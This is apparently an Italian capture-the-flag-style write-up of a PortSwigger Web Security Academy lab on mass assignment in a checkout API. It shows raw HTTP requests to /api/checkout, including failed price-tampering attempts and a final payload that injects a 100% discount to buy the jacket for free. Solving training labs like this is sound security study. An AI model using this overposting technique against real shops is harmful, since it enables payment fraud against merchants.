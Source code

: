 https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability

Colleghiamoci con le credenziali di `wiener` e inseriamo l'item "Lightweight l33t Leather Jacket" nel nostro carrello

![](_attachment/Pasted%20image%2020250406180503.png)

il nostro credito è attualmente 0, per cui non possiamo acquistarlo.

Rivedendo le richieste tramite Burp, notiamo questa (`/cart`):

![](_attachment/Pasted%20image%2020250406180552.png)

...che rivela, nel body, l'url dell'API:

```html
                   <script type='text/javascript'>
                        const getApiEndpoint = () => '/api/checkout';
                        const buildProductRow = (id, name, price, quantity) => `        <tr>
            <td>
                <a href=/product?productId=${encodeURIComponent(id)}>${name}</a>
            </td>
            <td>${price}</td>
```



```http
GET /api/checkout HTTP/2
Host: 0a2b00d00471e52883d81aee00ad0042.web-security-academy.net
Cookie: session=9mbE3QzgIQ5BXAgV2tiH7MLYWT23fKlr
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2b00d00471e52883d81aee00ad0042.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
```

risposta:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```

Il mio primo tentativo è stato quello di aggiungere un altro prodotto (con lo stesso nome...), senza specificare un ID, con prezzo a 0.

Chiaramente ho convertito il metodo da GET a POST e ho specificato il `Content-Type: application/json`

```http
POST /api/checkout HTTP/2
Host: 0a2b00d00471e52883d81aee00ad0042.web-security-academy.net
Cookie: session=9mbE3QzgIQ5BXAgV2tiH7MLYWT23fKlr
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2b00d00471e52883d81aee00ad0042.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Type: application/json
Content-Length: 131

{"chosen_discount":{"percentage":0},"chosen_products":[{"name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":0}]}
```


```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 85

{"error":"Key order: Key chosen_products: Key product_id: undefined is not a string"}
```

Ho provato a *aggiornare* l'item stesso, mettendo prezzo a 0, ma non sembra aver funzionato:

```json
{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":0}]}
```

risposta:

```http
HTTP/2 201 Created
Location: /cart?err=INSUFFICIENT_FUNDS <==
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

Ho provato a creare lo stesso item con un altro product id (999):

```json
{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"999","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":0}]}
```

```json
{"type":"ClientError","code":400,"error":"Invalid product id: 999"}
```

`OPTIONS`, `PATCH` .. "Method Not Allowed"



Ho poi visitato l'url `/api` trovando la documentazione:

![](_attachment/Pasted%20image%2020250406181222.png)

cliccando su `Order`:

```json
{
  "chosen_discount": ChosenDiscount,  // defaults to: {"description":null,"discount_id":null,"percentage":0}
  "chosen_products": [ChosenProduct]
}
```





Alla fine, ho semplicemente applicato uno sconto del 100% (`"percentage":100`)

```http
POST /api/checkout HTTP/2
Host: 0a2b00d00471e52883d81aee00ad0042.web-security-academy.net
Cookie: session=9mbE3QzgIQ5BXAgV2tiH7MLYWT23fKlr
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Sec-Ch-Ua: "Not:A-Brand";v="24", "Chromium";v="134"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2b00d00471e52883d81aee00ad0042.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Type: application/json
Content-Length: 155

{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```

```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](_attachment/Pasted%20image%2020250406180825.png)